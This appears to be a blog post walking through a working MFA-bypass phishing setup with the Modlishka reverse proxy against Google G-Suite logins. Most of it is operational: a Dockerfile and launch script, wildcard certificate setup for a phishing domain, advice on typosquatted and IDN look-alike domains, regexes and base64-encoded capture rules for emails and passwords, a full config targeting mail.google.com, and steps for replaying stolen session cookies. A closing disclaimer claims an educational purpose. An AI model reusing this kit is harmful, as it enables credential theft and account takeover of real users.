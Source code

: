 ```yaml
---
layout: post
title:  "[0x05] Phishing MFA accounts"
subtitle: "https://github.com/drk1wi/Modlishka"
date:   2020-07-22 12:00:00
categories: [tools, training]
vimeoId: 440640362
---
```


> MFA is usually considered secure. It however can be bypassed by phishing. I made this phishing demo using [drk1wi's](https://github.com/drk1wi) tool [Modlishka](https://github.com/drk1wi/Modlishka). The tool default templates are little bit outdated so here's also instructions how to make it work against G-Suite accounts. This is not a new thing, I just wanted to check if it still works. =)

![Screenshot](/assets/images/legit_site.png)

The full configuration is on [Github](https://github.com/who1s/modlishka-config).

## Demo

{{< vimeo 440640362 >}}

## Put it to the container

I decided to do quick and dirty dockerization for the tool:
```
FROM alpine
FROM golang
RUN go get -u github.com/drk1wi/Modlishka
RUN cd $GOPATH/src/github.com/drk1wi/Modlishka/ && make
COPY modlishka.json /tmp/
```

To build and run the docker container easily, I made a script:
```
#!/bin/bash

docker build -t phishing-demo-mfa .

# Generate few example id's
for i in {1..5}
do
	echo "https://phishing.fi/?id="$i
done

docker run -p80:80 -p443:443 -it --rm phishing-demo-mfa Modlishka -config /tmp/modlishka.json
```

## Generating certificate

To make the phishing site look legit, we need a valid certificate. [Let's Encrypt (LE)](https://letsencrypt.org/) is free to use and trusted certificate provider which supports wildcard certificates. The phishing site could be made more legit by playing around with [IDN](https://en.wikipedia.org/wiki/IDN_homograph_attack), using [typosquatted domain name](https://en.wikipedia.org/wiki/Typosquatting) or simply using subdomains like google.com.phishing.fi.

Let's generate the certificate and follow instructions. Acquiring the certificate requires adding some DNS TXT records to your domain.

```
# apt-get update && apt-get install certbot
# certbot certonly --manual --preferred-challenges dns --manual-public-ip-logging-ok -d '*.phishing.fi' -d phishing.fi
# cp -r /etc/letsencrypt/archive/phishing.fi/ .
```

The Modlishka wants certificate in different format so let's convert it accordingly:
```
# openssl rsa -in privkey1.pem -out priv.key
# sed -i ':a;N;$!ba;s/\n/\\n/g' priv.key
# sed -i ':a;N;$!ba;s/\n/\\n/g' fullchain1.pem
```

## Fixing the configuration

The [Modlishka G-Suite template in Github](https://github.com/drk1wi/Modlishka/blob/master/templates/google.com_gsuite.json) seems to be obsolete. The JSON payload it tries to parse does not include the user name anymore. As the template does not work out of the box, I decided to look into G-Suite authentication process and do modifications accordingly.

Google authentication is doing a POST request where both email address and password are in params.

![Screenshot](/assets/images/phishburp.png)

This is the best place to grab the credentials so we need to adjust Modlishka's credParams configuration to do it:

Username
```
identifierInput=([^\W]+[\.,\-,\_]{0,}\w+[\@,\%40]\w+[\.,\-,\_]{0,}\w+\.\w{2,5})
```

Password
```
password=([a-zA-Z0-9"!"#$%&'()*+,-./:;<=>?@^_{|}~]+)&ca
```

These regex expressions I made with [regex101](https://regex101.com) should grab the email address and the password from given parameters. The Modlishka requires regex in base64 encoded format so the final configuration line would look like this:
```
"credParams": "aWRlbnRpZmllcj0oW15cV10rW1wuLFwtLFxfXXswLH1cdytbXEAsXCU0MF1cdytbXC4sXC0sXF9dXHcrXC5cd3swLDV9KQ==,cGFzc3dvcmQ9KFthLXpBLVowLTkiISIjJCUmJygpKissLS4vOjs8PT4/QF5fe3x9fl0rKSZjYQ==",
```

I also wanted to terminate the connection after the victim has successfully logged in. Reviewing the login process on Google shows the user is being redirected to Mail box after successful login. This means the mailbox URI can be used as a termination string:
```
"terminateTriggers": "/mail/u/",
```

The victim should be redirected to somewhere after the login which could be the real Google mail account for example. For demonstration purposes, we're gonna use this "funny" "hacked" meme:
```
"terminateRedirectUrl": "https://i0.wp.com/nexxytech.com/wp-content/uploads/2016/08/cheers.jpg",
```

The tracking ID should also be adjusted:
```
"trackingParam": "id",
```

The full configuration is here without certificates:
```
# cat modlishka.json
{
  "proxyDomain": "phishing.fi", // Your domain
  "listeningAddress": "0.0.0.0",
  "proxyAddress": "",
  "target": "mail.google.com",
  "targetResources": "content.googleapis.com,www.gstatic.com,ssl.gstatic.com,ogs.google.com,clients1.google.com,clients2.google.com,clients3.google.com,clients4.google.com,clients5.google.com,clients6.google.com",
  "rules": "",
  "terminateTriggers": "/mail/u/",
  "terminateRedirectUrl": "https://i0.wp.com/nexxytech.com/wp-content/uploads/2016/08/cheers.jpg",
  "trackingCookie": "ident",
  "trackingParam": "id",
  "jsRules":"",
  "jsReflectParam": "reflect",
  "debug": false,
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "google.log",
  "plugins": "all",
  "credParams": "aWRlbnRpZmllcj0oW15cV10rW1wuLFwtLFxfXXswLH1cdytbXEAsXCU0MF1cdytbXC4sXC0sXF9dXHcrXC5cd3swLDV9KQ==,cGFzc3dvcmQ9KFthLXpBLVowLTkiISIjJCUmJygpKissLS4vOjs8PT4/QF5fe3x9fl0rKSZjYQ==",
  "cert": "", // fullchain1.pem here
  "certKey": "", // priv.key here
  "certPool": ""
}
```

## Using the stolen credentials

After victim has logged in using the Modlishka proxypage, we can use their cookies to log in by visiting Google's email and setting the gathered cookies for example with Moustachauve's [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) and refreshing the page.

## Resources

- [Modlishka](https://github.com/drk1wi/Modlishka)
- [My configuration](https://github.com/who1s/modlishka-config)

## Disclaimer

This demo is only for demonstration and education purposes. Do not use these instructions to anything illegal.

